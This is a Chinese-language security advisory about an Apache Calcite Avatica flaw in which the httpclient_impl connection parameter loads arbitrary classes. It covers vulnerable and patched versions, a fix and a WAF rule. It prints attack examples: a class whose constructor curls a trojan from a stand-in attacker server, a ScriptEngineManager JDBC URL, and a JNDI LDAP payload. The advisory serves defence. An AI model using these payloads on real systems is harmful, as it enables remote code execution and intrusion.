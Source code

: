 #  Apache Calcite惊现高危漏洞！数据库连接竟成黑客后门？   
云梦DC  云梦安全   2025-04-28 01:01  
  
一、漏洞原理揭秘  
  
核心杀伤力：  
```
// 致命代码片段
String className = config.httpClientClass();
Class<?> clazz = Class.forName(className);
Constructor<?> constructor = clazz.getConstructor(URL.class);
return (AvaticaHttpClient) constructor.newInstance(url);
攻击者通过伪造httpclient_impl参数，可：
```  
  
  
✅ 加载任意恶意类  
  
✅ 触发类构造函数执行任意代码  
  
✅ 绕过Java安全管理机制  
  
攻击三要素：  
  
控制JDBC连接字符串  
  
构造包含危险函数的恶意类  
  
目标类存在以URL为参数的构造函数  
  
二、攻击链深度解析  
  
▍ 漏洞环境搭建（Maven配置）  
```
<!-- 存在漏洞的版本 -->
<dependency>
    <groupId>org.apache.calcite.avatica</groupId>
    <artifactId>avatica</artifactId>
    <version>1.21.0</version> <!-- 危险版本 -->
</dependency>
```  
  
  
▍ 攻击代码演示  
```
// 恶意客户端构造
public class EvilClient {
    public EvilClient(URL url) throws Exception {
        Runtime.getRuntime().exec("curl http://黑客服务器/木马");
    }
}
// 触发漏洞
Properties props = new Properties();
props.setProperty("httpclient_impl", "EvilClient"); // 注入恶意类
Connection conn = DriverManager.getConnection("jdbc:avatica:...", props);
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpywWFGcowDD0H4TUjnA63KRwUXFgIibIbsBcZjHNPeAMeAeB2ovoOKvz15E1k3M4Eic3GdtE4ZIR2Ww/640?wx_fmt=png&from=appmsg "")  
  
  
▍ 高级利用技巧  
```
# 通过反射加载远程类
jdbc:avatica:remote:url=http://受害服务?httpclient_impl=javax.script.ScriptEngineManager
```  
  
  
三、企业级防御方案  
  
1. 热修复代码（临时方案）  
```
// 添加类安全校验
if (!AvaticaHttpClient.class.isAssignableFrom(clazz)) {
    throw new SecurityException("非法HTTP客户端类");
}
```  
  
2. WAF精准拦截规则  
  
```
location ~* jdbc:avatica {
    if ($args ~* "httpclient_impl=") {
        deny all; # 阻断异常参数
    }
}
3. 终
```  
  
极修复指南  
  
官方已发布安全补丁，立即升级至：  
```
# 查看当前版本
mvn dependency:tree | grep avatica
# 升级至安全版本
<version>1.22.0</version> <!-- 修复版本 -->
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpywWFGcowDD0H4TUjnA63KRIWUs2Rl5M0n6LVrN9ictSrbGFzvELPHibEaFuVO0vFW8JFdkQwnj3Nag/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞情报追踪  
  
监测发现攻击者正批量扫描4567端口，特征流量包括：  
```
POST /v1/statement HTTP/1.1
Content-Type: application/json
{"avaticaUser":"${jndi:ldap://恶意域名}"
```  
  
  
  
